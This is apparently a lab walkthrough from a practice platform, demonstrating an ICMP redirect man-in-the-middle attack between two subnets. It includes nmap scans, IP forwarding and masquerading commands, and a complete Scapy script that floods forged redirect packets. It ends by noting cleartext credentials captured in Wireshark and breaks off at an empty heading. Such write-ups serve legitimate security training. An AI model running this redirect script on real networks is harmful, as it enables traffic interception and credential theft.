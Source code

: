```yaml
---
layout: default
title: ICMP Redirect Attack
parent: Misc Attacks
nav_order: 1
---
```


# ICMP Redirect Attack

---

We are given two network subnets:

1. client's (connected) network 10.100.13.0/24
2. server's (non-connected) network 10.23.56.0/24

Begin by identifying reachable networks.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ ip route show dev eth1
10.100.13.0/24 proto kernel scope link src 10.100.13.20
```

Our network is 10.100.13.0/24

Let's use arp-scan to identify live hosts on the network.

```bash
# first the connected network
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ nmap -sn 10.100.13.0/24

Nmap scan report for 10.100.13.1
Nmap scan report for 10.100.13.126

# second the non-connected network
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ nmap -sn 10.23.56.0/24

Nmap scan report for 10.23.56.1
Nmap scan report for 10.23.56.100

```

So we have the following two discovered hosts:

1. 10.100.13.126 = client on the connected network
2. 10.23.56.100 = server on the non-connected network

Let's scan for open services on each endpoint

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 10.100.13.126 10.23.56.100

Nmap scan report for 10.100.13.126
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
111/tcp   open  rpcbind 2-4 (RPC #100000)
51365/tcp open  status  1 (RPC #100024)

Nmap scan report for 10.23.56.100
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: ### SPORTS.COM - Soccer website ###
111/tcp   open  rpcbind 2-4 (RPC #100000)
43423/tcp open  status  1 (RPC #100024)

```

## Configure IP Masquerading

Now that we have identified the client and the server we can configure our IP Masquerading.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE
```

## Create ICMP Redirect Script with Scapy

Here is the ICMP redirect script we will use with Scapy

```bash
originalRouterIP='10.100.13.1'
attackerIP='10.100.13.20'
victimIP='10.100.13.126'
serverIP='10.23.56.100'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
```

Launch Scapy and paste the script

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/]
└─$ scapy

# remove the comments below
>>> originalRouterIP='10.100.13.1'
>>> attackerIP='10.100.13.20'
>>> victimIP='10.100.13.126'
>>> serverIP='10.23.56.100'
# We create an ICMP Redirect packet
>>> ip=IP()
>>> ip.src=originalRouterIP
>>> ip.dst=victimIP
>>> icmpRedirect=ICMP()
>>> icmpRedirect.type=5
>>> icmpRedirect.code=1
>>> icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
>>> redirPayloadIP=IP()
>>> redirPayloadIP.src=victimIP
>>> redirPayloadIP.dst=serverIP
>>> fakeOriginalTCPSYN=TCP()
>>> fakeOriginalTCPSYN.flags="S"
>>> fakeOriginalTCPSYN.dport=80
>>> fakeOriginalTCPSYN.seq=444444444
>>> fakeOriginalTCPSYN.sport=55555
>>> while True:
...:     send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)

```

![scapy](../../../assets/images/ctfs/proving_grounds/sniffing/scapy.png)

## Intercept Data with Wireshark

The ICMP Redirect is now underway and we can observe the traffic between the host and server in Wireshark

First filter out the ICMP traffic

![icmp](../../../assets/images/ctfs/proving_grounds/sniffing/icmp.png)

Then follow the TCP Stream for the POST request to _/login_success.php_

![follow2](../../../assets/images/ctfs/proving_grounds/sniffing/follow2.png)

We can see that we have the cleartext credentials for the server.

![creds2](../../../assets/images/ctfs/proving_grounds/sniffing/creds2.png)

## Access Administration Panel

